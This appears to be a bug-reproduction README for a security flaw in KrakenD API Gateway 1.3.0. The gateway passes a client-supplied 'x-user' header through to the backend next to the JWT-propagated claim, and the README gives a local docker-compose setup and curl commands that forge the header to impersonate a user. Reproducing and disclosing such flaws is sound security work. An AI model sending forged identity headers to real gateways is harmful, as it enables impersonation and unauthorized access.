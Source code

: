 # krakend-header-pass-issue-minimal

This repository is a minimal setup for reproducing a security issue with the KrakenD API Gateway 
[JWT validation](https://www.krakend.io/docs/authorization/jwt-validation/),
which was observed in version 1.3.0 (other versions have not been tested).

## Problem Description

KrakenD can propagate claims from a validated JWT to the backend via custom HTTP headers.
For example to propagate the `sub` claim via the `x-user` header, the endpoint config looks like the following.

```
{
    "endpoint": "/protected",
    "method": "GET",
    "output_encoding": "no-op",
    "headers_to_pass": [
        "x-user"
    ],
    "backend": [
        {
            "host": ["http://echo:8080"],
            "url_pattern": "/",
            "encoding": "no-op"
        }
    ],
    "extra_config": {
        "github.com/devopsfaith/krakend-jose/validator": {
            "alg": "RS256",
            "jwk-url": "http://oidc-provider/.well-known/openid-configuration/jwks",
            "disable_jwk_security": true,
            "propagate-claims": [
                ["sub", "x-user"]
            ]
        }
    }
}
```

This is very useful, because backend services can rely on KrakenD to validate and parse JWTs.

However, if the `x-user` header is already present in the incoming request,
it is passed to the backend without being replaced by the propagated claim.

In this example this enables an attacker to impersonate other users.

## Running the example

First make sure you have `docker`, `docker-compose`, `curl` and `jq` installed.
Instead of `curl` and `jq` you can also use any other tool to send HTTP requests and parse JSON responses.

Start KrakenD, a mock OIDC provider and an echo backend service via Docker Compose.
The services will bind to `localhost:8080` (KrakenD) and `localhost:8081` (Mock OIDC Provider).

```
$ docker-compose up --force-recreate --renew-anon-volumes
```

Retrieve an access token (JWT) from the mock OIDC provider and store it into the `TEST_ACCESS_TOKEN` environment variable
```
export TEST_ACCESS_TOKEN=$(curl --location --request POST 'http://localhost:8081/connect/token' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'username=TestUser' \
--data-urlencode 'password=test' \
--data-urlencode 'grant_type=password' \
--data-urlencode 'scope=dummy' \
--data-urlencode 'client_id=test' \
--data-urlencode 'client_secret=test-secret' | jq -r '.access_token')
```

Call the protected endpoint and pass a custom `x-user` header.
```
curl --location --request GET "http://localhost:8080/protected" \
--header "authorization: Bearer ${TEST_ACCESS_TOKEN}" \
--header "x-user: i-am-evil"
```

The backend will echo a JSON representation of the HTTP request that was sent by KrakenD.
It should look something like the following.

```json
{
  "path": "/",
  "headers": {
    "host": "echo:8080",
    "user-agent": "KrakenD Version 1.3.0",
    "x-forwarded-for": "172.19.0.1",
    "x-forwarded-host": "localhost:8080",
    "x-user": "i-am-evil, test-user",
    "accept-encoding": "gzip"
  },
  "method": "GET",
  "body": "",
  "fresh": false,
  "hostname": "localhost",
  "ip": "172.19.0.1",
  "ips": [
    "172.19.0.1"
  ],
  "protocol": "http",
  "query": {},
  "subdomains": [],
  "xhr": false,
  "os": {
    "hostname": "c15b10b516c5"
  },
  "connection": {}
}
```

As you can see, the `x-user` header contains both, the value of the `sub` claim (`test-user`)
and the value of the original `x-user` header (`i-am-evil`).

The backend has no way of knowing, which value is to be trusted.
Even worse, most HTTP server frameworks provide some function like `request.getHeaderValue('x-user')`,
which returns the first value of the header if there is more than one value.
In such cases the attacker has successfully impersonated another user.

